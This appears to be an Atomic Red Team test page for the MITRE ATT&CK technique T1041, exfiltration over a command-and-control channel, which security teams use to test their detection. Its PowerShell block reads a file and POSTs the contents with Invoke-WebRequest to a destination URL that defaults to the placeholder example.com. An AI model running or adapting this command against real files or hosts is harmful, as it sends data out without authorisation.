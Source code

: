 # T1041 - Exfiltration Over C2 Channel
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1041)
<blockquote>Adversaries may steal data by exfiltrating it over an existing command and control channel. Stolen data is encoded into the normal communications channel using the same protocol as command and control communications.</blockquote>

## Atomic Tests

- [Atomic Test #1 - C2 Data Exfiltration](#atomic-test-1---c2-data-exfiltration)


<br/>

## Atomic Test #1 - C2 Data Exfiltration
Exfiltrates a file present on the victim machine to the C2 server.

**Supported Platforms:** Windows


**auto_generated_guid:** d1253f6e-c29b-49dc-b466-2147a6191932





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_url | Destination URL to post encoded data. | String | example.com|
| filepath | The file which is being exfiltrated to the C2 Server. | Path | $env:TEMP&#92;LineNumbers.txt|


#### Attack Commands: Run with `powershell`! 


```powershell
if(-not (Test-Path #{filepath})){ 
  1..100 | ForEach-Object { Add-Content -Path #{filepath} -Value "This is line $_." }
}
[System.Net.ServicePointManager]::Expect100Continue = $false
$filecontent = Get-Content -Path #{filepath}
Invoke-WebRequest -Uri #{destination_url} -Method POST -Body $filecontent -DisableKeepAlive
```






<br/>

